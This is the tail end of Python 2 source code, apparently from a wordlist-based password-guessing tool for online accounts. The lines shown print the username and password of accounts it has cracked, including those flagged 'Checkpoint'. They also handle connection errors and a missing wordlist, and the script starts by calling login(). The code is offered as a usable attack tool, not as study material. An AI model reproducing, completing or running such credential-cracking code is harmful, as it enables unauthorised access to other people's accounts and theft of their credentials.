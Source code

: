                             print '\033[1;97m[!] \033[1;97mAccount Maybe Checkpoint'
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mUsername \033[1;97m:\033[1;97m ' + email
                            print '\033[1;97m[\xe2\x9e\xb9] \033[1;97mPassword \033[1;97m:\033[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\033[1;97m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\033[1;97m[!] File not found...'
            print """\n\033[1;97m[!] \033[1;97mLooks like you don't have a wordlist"""
            super()

if __name__ == '__main__':
	login()
